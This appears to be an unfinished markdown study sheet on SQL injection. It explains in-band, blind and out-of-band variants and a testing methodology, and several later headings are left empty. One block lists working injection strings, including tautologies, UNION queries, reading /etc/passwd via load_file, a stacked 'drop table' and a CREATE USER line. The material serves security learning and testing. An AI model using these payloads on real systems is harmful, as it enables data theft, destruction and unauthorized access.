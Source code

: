 # I. Types of SQL Injection
Useful resources:
- https://github.com/payloadbox/sql-injection-payload-list

## A. In-Band SQL Injection
Attacker use the same chanel to query and read results.

#### 1. Error-based SQL Injection
Insert bad inputs to cause SQL server to return errors. Then exploit input to query for multiple results.

#### 2. System Stored procedure
Modify stored queries.

#### 3. Logically incorrect query
Use logically incorrect queries (add " after input) to make query invalid on purpose. Usually a error message will show info regarding resulted SQL statement.

#### 4. UNION SQL Injection
Use UNION to join multiple results to the original query results.

#### 5. Tautology
Make query be always true: ' OR 1=1 --

#### 6. End-of-line comment
Make use of --

#### 7. In-line comment
Make use of /* comment here \*/

#### 8. Piggybacked/Stacked query
Attacker may use ';' to append a second query to initial query.

## B.  Blind/Inferential SQL Injection
- No errors display. Attackers is carried in boolean form.
- No error message - Results of the query are not directly visible for the attacker.
- Generic page - A generic error message will be returned actually, which does not provide rich info for attacker.
- Time-intensive/Time-based SQL Injection - Insert a delay before response to know if the query succeed. 

#### 1. WAIT DELAY (Y/N) / Time-based SQL Injection
Insert a time delay after positive response to know if query succeed.

#### 2. Boolean exploitation
Send multiple queries which are evaluated as true or false and gether info by comparing response pages whether query succeed.

#### 3. Heavy query
Perform time delayed query without time-specific function bu rather by asking intense operations when query succeed. Heavy query can be generated using multiple queries joined.


## C. Out-of-band SQL Injection
Different communication channels such as file write, http request, email functionality etc.

For this to succeed, attacker need to communicate with SQL server and acquire features uspported.

DNS or HTTP could be used to exfiltrate data.

# II. SQL Injection Methodology

## 1. Extract info from error messages
- Tamper parameter to cause any error and capture any usefull data
- Determine datbase engine by generating ODBC errors
- determine query SELECT structure - by placing ' before, after, to different param, etc
- get info from groupping error - **' GROUP BY col_name HAVING 1=1--**
- type mismatch errors - used to determine the type of a field inside a table - **UNION SELECT 1,2,'text',3,4 --**
- blind injection - **; IF <condition> WAITFOR DELAY '0:0:5'--**

## 2. SQL Injection Detection
1. Function testing - feed a function with various inputs
2. Fuzz testing
3. Code analysis

Example iputs vectors to be concat to actual query string:
```
||6 
'||'6 
(||6) 
' OR 1=1--
OR 1=1 
or 1=1--
" or "a"="a 
Admin' OR ' 
' having 1=1--' 
OR 'text' = N'text'
%22+or+isnull%281%2F0% 29+%2F*
' group by userid having 1=1--
'; EXECUTE IMMEDIATE 'SEL' || 'ECT US' || 'ER'
CRATE USER name IDENTIFIED BY 'pass123' 
' union select 1,load_file('/etc/passwd'),
' or 1 in (select @@version)--
' union all select @@version--
' OR 'unusual' = 'unusual'
' OR 'something' = 'some'+'thing'
' OR 'something' like 'some%'
+or+isnull%281%2F0 %29+%2F*
%27+OR+%277659% 27%3D%277659
%22+or+isnull%281 %2F0%29+%2F*
' and 1 in (select var from temp)--
' ; drop table temp --

' OR '1'='1 
; OR '1'='1' 
%27+--+ 
" or 1=1--' 
or 1=1 /* 
' OR 2 > 1 
' OR 'text' > 't' 
' union select 
Password:*/=1--
' or 1/*
```

Full payloads list here: https://github.com/payloadbox/sql-injection-payload-list


## 3. Perforn SQL Injection attack

#### a. Perform Union SQL Injection
a. Extract database name
b. Extract Database tables
c. Extract Table column Names
d. Extract data


#### b. 



# III. SQL Injection Tools

# IV. Evasion techniques

